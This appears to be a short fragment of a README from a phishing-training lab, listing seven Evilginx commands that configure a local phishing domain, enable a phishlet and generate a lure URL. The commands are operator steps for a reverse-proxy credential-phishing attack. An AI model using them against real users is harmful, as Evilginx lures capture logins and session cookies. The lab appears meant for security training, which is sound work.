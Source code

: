 
Attack
1. docker exec -it phisherman-evilginx-1 /bin/bash
2. config domain sec565.phish
3. config ipv4 external 127.0.0.1
4. phishlets hostname sec565 sec565.phish
5. phishlets enable sec565
6. lures create sec565
7. lures get-url 0